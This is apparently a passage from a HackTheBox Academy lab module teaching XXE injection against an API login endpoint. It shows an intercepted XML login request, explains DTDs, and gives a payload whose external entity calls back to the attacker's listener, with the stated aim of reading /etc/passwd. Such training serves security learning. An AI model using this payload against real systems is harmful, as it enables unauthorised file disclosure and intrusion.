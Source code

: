 Run Burp Suite as follows.

```shell
burpsuite

```

Activate burp suite's proxy ( _Intercept On_) and configure your browser to go through it.

Now let us try authenticating. We should see the below inside Burp Suite's proxy.

![image](https://academy.hackthebox.com/storage/modules/160/11.png)

```http
POST /api/login/ HTTP/1.1
Host: <TARGET IP>:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 111
Origin: http://<TARGET IP>:3001
DNT: 1
Connection: close
Referer: http://<TARGET IP>:3001/
Sec-GPC: 1

<?xml version="1.0" encoding="UTF-8"?><root><email>[email protected]</email><password>P@ssw0rd123</password></root>

```

- We notice that an API is handling the user authentication functionality of the application.
- User authentication is generating XML data.

Let us try crafting an exploit to read internal files such as _/etc/passwd_ on the server.

First, we will need to append a DOCTYPE to this request.

What is a DOCTYPE?

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document. A DOCTYPE declaration can also be used to define special characters or strings used in the document. The DTD is declared within the optional DOCTYPE element at the start of the XML document. Internal DTDs exist, but DTDs can be loaded from an external resource (external DTD).

Our current payload is:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>[email protected]</email>
<password>P@ssw0rd123</password>
</root>

```
